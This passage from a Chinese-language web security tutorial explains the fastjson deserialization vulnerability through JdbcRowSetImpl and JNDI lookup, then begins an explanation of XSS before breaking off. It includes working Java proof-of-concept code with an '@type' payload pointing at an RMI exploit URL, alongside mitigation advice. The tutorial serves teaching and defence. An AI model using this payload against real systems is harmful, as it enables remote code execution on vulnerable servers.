 setDataSourceName 简单设置了设置了dataSourceName的值，setAutoCommit中有connect操作，connect方法中有典型的jndi的lookup方法调用，参数刚好就是在setDataSourceName中设置的dataSourceName。

因此，有漏洞的反序列代码实现如下即可：

```swift
    public class FastjsonTest {
    
        public static void main(String[] argv){
        testJdbcRowSetImpl();
    }
    
        public static void testJdbcRowSetImpl(){
        //JDK 8u121以后版本需要设置改系统变量
        System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
        //RMI
        String payload2 = "{\"@type\":\"com.sun.rowset.JdbcRowSetImpl\",\"dataSourceName\":\"rmi://localhost:1099/Exploit\"," +
        " \"autoCommit\":true}";
        JSONObject.parseObject(payload2);
    }
}
```

漏洞复现的流程如下哈：

![image.png](/images/jueJin/7c5e5a1f90ce4f9.png)

参考的代码来源这里哈，[fastjson漏洞代码测试](https://link.juejin.cn?target=https%3A%2F%2Fgithub.com%2Fearayu%2Ffastjson_jndi_poc "https://github.com/earayu/fastjson_jndi_poc")

#### 如何解决json反序列化漏洞问题

*   可以升级版本，比如fastjson后面版本，增强AutoType打开时的安全性 fastjson，增加了AutoType黑名单等等，都是为了应对这些安全漏洞。
*   反序列化有fastjson、gson、jackson等等类型，可以替换。
*   升级+打开safemode

3\. XSS 攻击
----------

### 什么是XSS？

XSS 攻击全称跨站脚本攻击（Cross-Site Scripting），这会与层叠样式表(Cascading Style Sheets, CSS)的缩写混淆，因此有人将跨站脚本攻击缩写为XSS。它指的是恶意攻击者往Web页面里插入恶意html代码，当用户浏览该页之时，嵌入其中Web里面的html代码会被执行，从而达到恶意攻击用户的特殊目的。XSS攻击一般分三种类型：存储型 、反射型 、DOM型XSS

### XSS是如何攻击的？

拿反射型举个例子吧，流程图如下：

![image.png](/images/jueJin/7a987219404944d.png)

我们搞点简单代码样例吧，首先正常html页面如下：

```ini
<input type="text" name="name" />
<input type="submit" value="搜索" onclick="http://127.0.0.1/search?name=">
</body>
```
